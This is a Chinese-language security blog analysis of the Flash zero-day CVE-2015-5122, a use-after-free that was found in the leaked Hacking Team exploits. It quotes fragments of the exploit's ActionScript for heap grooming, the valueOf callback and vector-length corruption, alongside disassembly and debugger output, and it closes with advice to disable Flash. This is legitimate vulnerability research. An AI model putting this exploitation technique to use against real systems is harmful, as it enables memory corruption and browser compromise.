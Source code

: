 # Hacking Team攻击代码分析Part 4: Flash 0day漏洞 CVE-2015-5122

0x00 前言
=====

前几天我们分析了Hacking Team泄露数据中的3个exploit，包括一个flash 0day，一个flash nday和一个windows字体提权0day。昨天Adobe在发布了最新的flash版本（18.0.0.203），修补了其中的flash 0day（CVE-2015-5119）。然而今天twitter上面又有研究者爆猛料，称Hacking Team泄露数据中还有一个未修补的flash 0day，在最新的flash版本中仍然可以触发。Adobe随后也发布了对应的安全公告APSA15-04，漏洞的CVE编号为：CVE-2015-5122。影响Windows、MacOSX和Linux平台上的IE、Chrome浏览器等主流浏览器。

![enter image description here](http://drops.javaweb.org/uploads/images/4eb38ef9f1a40a74972db5581b0dc98abda4087d.jpg)

我们经过分析，确认这确实又是一个新的flash 0day，漏洞成因是DisplayObject在设置opaqueBackground属性时，没有正确处理可能发生的回调（又是valueOf，是在下输了），而产生的Use After Free漏洞。本文将分析这个漏洞的成因和利用方式。

0x01 漏洞原理分析
=====

出问题的函数是DisplayObject对象的opaqueBackground属性设置函数：

我们来看一下HackingTeam泄露的exploit代码，关键部分如下：

```
1   for(i=_arLen1; i < _arLen2; i++)
2       _ar[i] = _tb.createTextLine(); // fill 1016-byte holes (0x38c is a size of internal TextLine object)
3       for(i=_arLen1; i < _arLen2; i++)
4           _ar[i].opaqueBackground = 1; // alloc 1016 bytes

```

在这个过程中会每个TextLine Object内部会分配0x390大小的对象，对象分配的代码在：

```
1   .text:1025DC71                 push    1
2   .text:1025DC73                 push    eax
3   .text:1025DC74                 push    390h
4   .text:1025DC79                 call    operator_new2

```

调试过程中分配的0x390内部对象地址：

```
Allocate 0x390 object:04cbc810
Allocate 0x390 object:0513c810
Allocate 0x390 object:0513cc08
Allocate 0x390 object:05d94020
Allocate 0x390 object:05d94418
Allocate 0x390 object:05d94810
Allocate 0x390 object:05d94c08
Allocate 0x390 object:05d95020
Allocate 0x390 object:05d95418
Allocate 0x390 object:05d95810
Allocate 0x390 object:05d95c08
Allocate 0x390 object:05d96020
Allocate 0x390 object:05d96418
Allocate 0x390 object:05d96810
Allocate 0x390 object:05d96c08
Allocate 0x390 object:05d97020
Allocate 0x390 object:05d97418

```

2 设置opaqueBackground，触发valueOf函数调用：

```
1   MyClass.prototype.valueOf = valueOf2;
2                    
3   // here we go, call the vulnerable setter
4   _cnt = _arLen2-6;
5   _ar[_cnt].opaqueBackground = _mc;

```

和之前两个漏洞一样，exploit定义了自己的类，设置valueOf函数，然后在opaqueBackground的设置函数中，我们可以看到有一个将传入的参数转换为integer的过程，这个调用触发了MyClass的valueOf函数：

```
.text:1025DD4C loc_1025DD4C: CODE XREF: set_opaqueBackground+2Fj
.text:1025DD4C                 push    ebx
.text:1025DD4D                 push    [esp+10h+param]
.text:1025DD51                 call    ?integer@AvmCore@avmplus@@SAHH@Z ; avmplus::AvmCore::integer(int)

```

3 在valueOf函数中，释放TextLine Object，并使用vector占位

```
01  static function valueOf2()
02  {
03      try
04      {  
05          if (++_cnt < _arLen2) {
06              // recursive call for next TextLine
07              _ar[_cnt].opaqueBackground = _mc;
08          }else{
09              Log("MyClass.valueOf2()");
10               
11              // free internal objects
12              for(var i:int=1; i <= 5; i++)
13                  _tb.recreateTextLine(_ar[_arLen2-i]);
14               
15              // reuse freed memory
16              for(i=_arLen2; i < _arLen; i++)
17                  _ar[i].length = _vLen;
18          }
19      }
20      catch (e:Error)
21      {
22          Log("valueOf2 " + e.toString());
23      }
24      return _vLen+8;
25  }

```

我们可以看到valueOf函数通过调用recreateTextLine释放了原来的TextLine对象（因此0x390大小的内部对象也将被释放）。然后使用0x190大小的vector对象试图占用已经释放的0x390大小对象的内存。这里之所以选用0x190大小的vector，是因为之后代码会对已经释放的0x390内部对象进行一个写操作，这个写操作的偏移是0x320，正好是0x190的两倍，这样写的时候可以直接写到vector的长度字段。这里用了一个技巧：用不同大小的对象去占位时，必须以页为单位释放原对象的内存，才有可能成功（也就是说这里必须连续释放多个0x390大小的内部对象，造成至少一个page（0x1000）内存被释放，然后才能用0x190的vector去占它）。

4 从valueOf返回，已经释放的0x390内部对象被写入

```
eax=00000000 ebx=0000006a ecx=05d92708 edx=00000006 esi=05d97020 edi=0515dd78
eip=631bdd7e esp=0300bfec ebp=05d92708 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00200246
Flash32_18_0_0_203!DllUnregisterServer+0x7489c:
631bdd7e 889e20030000 mov byte ptr [esi+320h],bl ds:0023:05d97340=62
0:006> dd esi
05d97020 00000062
04cb3000 00000037 00000000

```

Esi指向已经被释放的0x390大小对象（0x5d97020），可以参考前面分配时记录的对象地址，很容易看出这是其中一个0x390对象。写入的是esi+0x320处，可以看到已经被vector占用，并且指向某个vector的长度字段（0x62）。 写操作完成后，vector长度被篡改为0x6a:

```
0:006> p
0:006> dd esi+320 L4
05d97340  0000006a 04cb3000 00000039 00000000

```

之后exploit再利用这个稍微变长了一点点的vector，修改紧邻的下一个vector的长度为0x40000000：

```
0:006> dd 5D974D0L4
05d974d0  40000000 04fc3000 0000003a 00000000

```

0x02 漏洞防范
=====

由于该漏洞利用非常稳定，而Adobe暂时没有发布该漏洞的补丁，我们建议补丁发布之前，可以暂时先禁用flash插件。